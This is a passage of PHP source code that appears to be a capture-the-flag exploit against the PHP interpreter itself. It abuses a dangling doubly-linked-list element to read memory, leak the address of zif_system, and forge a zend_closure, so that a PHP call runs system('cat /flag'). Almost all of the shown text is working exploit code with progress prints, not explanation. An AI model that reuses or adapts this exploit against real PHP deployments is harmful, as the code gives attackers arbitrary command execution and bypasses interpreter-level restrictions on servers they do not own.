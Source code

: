 ```php
        $rw_dll->push([3]);
        $array_addr = s2i($fake_dll_element, $leaked_str_offsets[2] + 0x18);
        # Change the zval type from zend_object to zend_string
        i2s($fake_dll_element, $leaked_str_offsets[2] + 0x20, 0x00000006);
        if(gettype($rw_dll[0]) != 'string')
            die('Exploit failed: Unable to change zend_array to zend_string');

        # We can now read anything: if we want to read 0x11223300, we make zend_string*
        # point to 0x11223300-0x10, and read its size using strlen()

        # Read zend_array->pDestructor
        $zval_ptr_dtor_addr = read($array_addr + 0x30);

        print('Leaked zval_ptr_dtor address: 0x' . dechex($zval_ptr_dtor_addr) . "\n");

        # Use it to find zif_system
        $system_addr = get_system_address($zval_ptr_dtor_addr);
        print('Got PHP_FUNCTION(system): 0x' . dechex($system_addr) . "\n");

        # In the second freed block, we create a closure and copy the zend_closure struct
        # to a string
        $rw_dll->push(function ($x) {});
        $closure_addr = s2i($fake_dll_element, $leaked_str_offsets[1] + 0x18);
        $data = str_shuffle(str_repeat('A', 0x200));

        for($i = 0; $i < 0x138; $i += 8)
        {
            i2s($data, $i, read($closure_addr + $i));
        }

        # Change internal func type and pointer to make the closure execute system instead
        i2s($data, 0x38, 1, 4);
        i2s($data, 0x68, $system_addr);

        # Push our string, which contains a fake zend_closure, in the last freed chunk that
        # we control, and make the second zval point to it.
        $rw_dll->push($data);
        $fake_zend_closure = s2i($fake_dll_element, $leaked_str_offsets[0] + 0x18) + 24;
        i2s($fake_dll_element, $leaked_str_offsets[1] + 0x18, $fake_zend_closure);
        print('Replaced zend_closure by the fake one: 0x' . dechex($fake_zend_closure) . "\n");

        # Calling it now

        print('Running system("cat /flag");' . "\n");
        $rw_dll[1]('cat /flag');

        print_r('DONE'."\n");
    }
}

class DanglingTrigger
{
    function __construct($i)
    {
        $this->i = $i;
    }

    function __destruct()
    {
        global $dlls;
        #D print('__destruct: ' . $this->i . "\n");
        $dlls[$this->i]->offsetUnset(0);
        $dlls[$this->i+1]->push(123);
```